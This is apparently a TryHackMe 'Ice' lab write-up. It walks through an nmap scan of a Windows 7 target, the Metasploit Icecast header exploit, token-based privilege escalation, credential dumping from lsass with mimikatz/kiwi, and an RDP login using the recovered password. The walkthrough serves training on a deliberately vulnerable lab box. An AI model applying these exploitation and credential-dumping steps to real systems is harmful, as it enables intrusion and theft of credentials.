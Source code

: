 ```yaml
---
title: THM | Ice |  02-09-2023
updated: 2023-09-03 15:18:29Z
created: 2023-09-02 16:57:34Z
categories: [Execute Code Overflow]
tags: [Kiwi, Metasploit] 
---
```



![76b8f006f45c4a2a4e2048b55dc3b88c.png](/Tryhackme/Ice/_resources/76b8f006f45c4a2a4e2048b55dc3b88c.png)

Tryhackme Room: https://tryhackme.com/room/ice
Date: 02/09/2023
# Recon
## Nmap
```
└─$ nmap -Pn -A 10.10.144.12                             
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-02 12:59 EDT
Nmap scan report for 10.10.144.12
Host is up (0.19s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open                     Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: DARK-PC
|   NetBIOS_Domain_Name: DARK-PC
|   NetBIOS_Computer_Name: DARK-PC
|   DNS_Domain_Name: Dark-PC
|   DNS_Computer_Name: Dark-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2023-09-02T17:01:01+00:00
|_ssl-date: 2023-09-02T17:01:07+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Dark-PC
| Not valid before: 2023-09-01T15:24:49
|_Not valid after:  2024-03-02T15:24:49
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Service Unavailable
|_http-server-header: Microsoft-HTTPAPI/2.0
8000/tcp  open  http               Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:46:fb:ab:b2:7f (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-09-02T12:01:01-05:00
|_clock-skew: mean: 59m59s, deviation: 2h14m10s, median: 0s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-09-02T17:01:01
|_  start_date: 2023-09-02T15:24:47
```

## Port 8000 (HTTP)
From our Nmap result we know it's running interesting service called `Icecast streaming media server`. We will look at https://www.cvedetails.com for searching exploit and cve details as instructed in the tryhackme room.
![1f4c7227daf68f4202a977728326634b.png](/Tryhackme/Ice/_resources/1f4c7227daf68f4202a977728326634b.png)

As metasploit module is available for exploiting this cve, we will open msfconsole:
![4dc81310d946de84f8b3f28ba5bebf69.png](/Tryhackme/Ice/_resources/4dc81310d946de84f8b3f28ba5bebf69.png)
# Gain Access
We will use the following modules and set the required options: 
```console
msf6 > use exploit/windows/http/icecast_header 
```
 Once we run the exploit, we got the meterpreter session:
 ![de538f635a8845b2d0951ad2f7afa50f.png](/Tryhackme/Ice/_resources/de538f635a8845b2d0951ad2f7afa50f.png)
 
 # Privilege Escalation
Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`.

![a8a80cc70a9db2aa948e09056b1fc475.png](/Tryhackme/Ice/_resources/a8a80cc70a9db2aa948e09056b1fc475.png)

We tried `exploit/windows/local/bypassuac_eventvwr` as suggested in tryhackme room, but was unsuccessful in creating session.

![4d49d09377e5ac133ac0f1d665b1a5b0.png](/Tryhackme/Ice/_resources/4d49d09377e5ac133ac0f1d665b1a5b0.png)

Then we tried with `exploit/windows/local/tokenmagic` module and succeeded to gain meterpreter session with elevated privilege.

![599391416afd9df5d571ad35942e4f0f.png](/Tryhackme/Ice/_resources/599391416afd9df5d571ad35942e4f0f.png)

## Get credentials with mimikatz

Prior to further action, we need to move to a process that actually has the permissions that we need to interact with the lsass service
So, we will migrate to spoolsv.exe as it meet our needs perfectly.

![c43c7426c8d7fb3d9258fa13dfb98b43.png](/Tryhackme/Ice/_resources/c43c7426c8d7fb3d9258fa13dfb98b43.png)

Next, we will run  `load kiwi` and execute the following command:
![5483640d6794272c3c139015fe6f3efa.png](/Tryhackme/Ice/_resources/5483640d6794272c3c139015fe6f3efa.png)

In the above image, we can see the see the clear test password for `Dark`

Next we will dump hashes with the following command:
![f856f36318a00959294d5463e059eedb.png](/Tryhackme/Ice/_resources/f856f36318a00959294d5463e059eedb.png)

Next, We will RDP to the Dark account with `xfreerdp`
```
xfreerdp /u:Dark /p:Password01! /v:10.10.199.95:3389 
```
![eea4a25b8767e11ffdd7498f153d44a9.png](/Tryhackme/Ice/_resources/eea4a25b8767e11ffdd7498f153d44a9.png)

This conclude the challenge of this room. Hope you enjoyed!